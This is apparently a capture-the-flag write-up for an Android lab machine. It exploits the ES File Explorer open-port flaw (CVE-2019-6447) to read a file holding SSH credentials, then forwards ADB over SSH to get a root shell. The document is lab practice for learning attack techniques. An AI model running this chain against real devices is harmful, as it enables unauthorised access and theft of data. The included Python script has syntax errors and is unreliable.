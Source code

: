 ### Box Info
OS: Android\
IP: 10.10.10.247

## Part I 

### Skills learned:
Curl/Python
Andriod OS + tools

### Enumeration
nmap -p- -A -oN Exploreprts.txt ${IP}
+ 2222 SimplSSH
+ 5555 Andriod Debug bridge
+ 42135 ES File explorer
+ 59777 Bukkit JSONAPI
+ 44233 fingerprint-strings

### Research
Yields CVE-2019-6447
+ https://github.com/fs0c131y/ESFileExplorerOpenPortVuln
+ https://www.exploit-db.com/exploits/50070

### Step 1: File Extraction
+ python3 poc.py ${cmd} ${IP} 
+ python3 poc.py ${cmd} ${IP} $dir/$.jpg
+ [+] Done. Saved as 'out.dat'.

After file downloaded, open 
+ ${IP}:59777/${dir}/${.jpg} || xdg-open out.dat
+ File gives UN && PW

### Step 2: SSH
+ ssh -p 2222 ${UN}@${IP} 
+ ${PW}

### Information Gathering
+ :/whoami
u0_a76
+ :/uname -a 
Linux localhost 4.9.214-android-x86_64-g04f9324 #1 SMP PREEMPT Wed Mar 25 17:11:29 CST 2020 x86_64
+ :/find / -perm /6000 2>/dev/null
/system/xbin/procmem
/system/xbin/su
+ :/ $ id
uid=10076(u0_a76) gid=10076(u0_a76) groups=10076(u0_a76),3003(inet),9997(everybody),20076(u0_a76_cache),50076(all_a76) context=u:r:untrusted_app:s0:c76,c256,c512,c768

### Find Flag
Have fun searching! 

## Part II

### Skills learned
ssh port forwarding
adb tool

### Install tools:
adroid-tools-adb

### Port forwarding script.py:
import socket\
import subprocess\
import pyautogui\
import time\
\
def connection_function(host, port):\
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)\
    s.connect((host, port))\
    print(s.recv(1024))\
\
connection_function("${IP}", 2222)\
\
def adb_connection(host, port):\
   s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)\
    s.connect((host, port))\
    print(s.recv(1024))\
\
    subprocess.call(['ssh -p 2222 -L 5555:localhost:5555 kristi@${IP}'], shell=True)\
    password = "[PASSWORD OF TARGET MACHINE OF SSH]"\
    print(s.recv(1024))\
\
adb_connection("${IP}", 2222)\

### Start port-forwarding server
+ adb start-server
+ adb connect localhost:5555
+ adb devices

### Initiate root shell:
+ adb -s localhost:5555 shell

### Find root Flag!
Happy searching!
